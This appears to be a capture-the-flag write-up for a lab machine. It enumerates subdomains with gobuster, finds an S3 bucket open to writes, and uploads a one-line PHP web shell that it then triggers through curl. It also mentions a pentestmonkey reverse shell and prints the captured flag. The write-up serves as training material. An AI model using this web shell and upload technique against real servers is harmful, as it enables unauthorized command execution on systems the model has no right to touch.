 We will use `gobuster` to discover sub-domain

`gobuster dns -d thetoppers.htb -t 50 -w /usr/share/wordlists/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt`

Cheatsheet (https://3os.org/penetration-testing/cheatsheets/gobuster-cheatsheet/#dir-mode)

```
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     thetoppers.htb
[+] Threads:    50
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: s3.thetoppers.htb
                                                                                                                    
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

## AWS

to list all the S3 bucket

`aws s3 ls`

`aws --endpoint=http:http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb`

We can then see the list of s3 bucket

```
                           PRE images/
2023-10-13 10:25:08          0 .htaccess
2023-10-13 10:25:08      11952 index.php

```

We then create a `PHP` file with a `cmd` command inside, it will looks like this.

`<?php system($_REQUEST["cmd"]); ?>`

We then upload it to the S3 bucket

`aws --endpoint=http://s3.thetoppers.htb/ s3 cp shell.php s3://thetoppers.htb`

Confirmation

`upload: ./shell.php to s3://thetoppers.htb/shell.php `

We then check the bucket again using the `ls` command

`
└─# aws --endpoint=http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb          
                           PRE images/
2023-10-13 10:25:08          0 .htaccess
2023-10-13 10:25:08      11952 index.php
2023-10-13 11:06:49         31 shell.php
`
We will now execute and see if our php shell works.

`curl http://thetoppers.htb/shell.php?cmd=id`

Result:

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

It works!

We then upload a php reverse shell. (note: you can use a bash script or command to initiate a reverse shell.

We will use the pentestmonkey php.

Then on our machine, we will open a listener.

and upload the reverse shell php using the aws upload command again and execute it.

we should receive our shell and retrieve the flag.

`www-data@three:/var/www$ cat flag.txt
cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
www-data@three:/var/www$ 
`

